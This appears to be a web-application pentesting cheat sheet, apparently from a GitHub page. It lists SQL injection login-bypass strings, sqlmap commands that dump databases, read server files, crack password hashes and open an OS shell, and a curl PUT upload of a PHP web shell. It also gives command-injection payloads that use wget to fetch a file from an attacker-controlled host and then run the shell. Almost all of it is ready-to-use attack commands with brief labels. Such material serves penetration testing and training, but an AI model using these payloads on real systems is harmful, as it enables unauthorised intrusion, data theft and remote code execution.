 # WebApp

## SQLInjections

Common Injections for Login Forms:
```
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—
```

## domain-to-webapp
```
./webAppChecker www.example.com ./ouput_dir ./scope.txt
```

## SQLMAP

Automated scan
```
sqlmap -u http://example.com –forms –batch –crawl=10 –cookie=jsessionid=54321 –level=5 –risk=3
```

Targeted scan
```
sqlmap -u http://example.com -p PARAM –data=POSTDATA –cookie=COOKIE –level=3 –current-user –current-db –passwords –file-read=”/var/www/blah.php”
```

Scan url for union AND error based injection with MYSQL backend AND use a random user agent AND database dump
```
sqlmap -u “http://example.com/vuln.php?id=1” –dbms=mysql –tech=U –random-agent –dump
```

Find forms for injections
```
sqlmap -o -u “http://meh.com/form/” –forms
```

Dump + crack hashes for table users on database-name
```
sqlmap -o -u “http://meh/vuln-form” –forms -D database-name -T users –dump
```

Flushes the session
```
sqlmap --flush session
```

Attempts to exploit the “user” field using boolean technique
```
sqlmap -p user --technique=B
```

Capture a request via Burp Suite, save it to a file, and use this command to let sqlmap automate everything. Add –os-shell at the end to pop a shell if possible
```
sqlmap -r <captured request>
```

## Command Injection

File Traverse
```
website.com/file.php[?path=/]
```

Test HTTP options using curl
```
curl -vX OPTIONS [website]
```

Upload file using CURL to website with PUT option available
```
curl --upload-file shell.php --url http://192.168.218.139/test/shell.php --http1.0
```

Transfer file
```
?path=/; wget http://IPADDRESS:8000/FILENAME.EXTENTION;
```

Activate shell file
```
; php -f filelocation.php;
```